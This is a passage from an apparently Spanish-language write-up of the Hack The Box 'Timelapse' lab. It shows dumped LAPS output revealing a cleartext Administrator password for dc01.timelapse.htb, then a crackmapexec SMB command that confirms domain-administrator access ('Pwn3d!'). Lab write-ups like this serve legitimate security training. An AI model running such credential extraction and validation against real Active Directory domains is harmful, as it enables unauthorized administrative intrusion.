 ```bash
Expiration : NA

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 7]pZ-rLF480%v;mABF$j;a53
Expiration : 8/1/2023 7:46:35 AM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : 7]pZ-rLF480%v;mABF$j;a53
Expiration : 8/1/2023 7:46:35 AM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA
```

Con la contraseña en nuestro poder, procedemos a verificar si son válidas para el usuario `Administrator`.

```bash
❯ crackmapexec smb 10.10.11.152 -u 'Administrator' -p '7]pZ-rLF480%v;mABF$j;a53'
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [+] timelapse.htb\Administrator:7]pZ-rLF480%v;mABF$j;a53 (Pwn3d!)
```
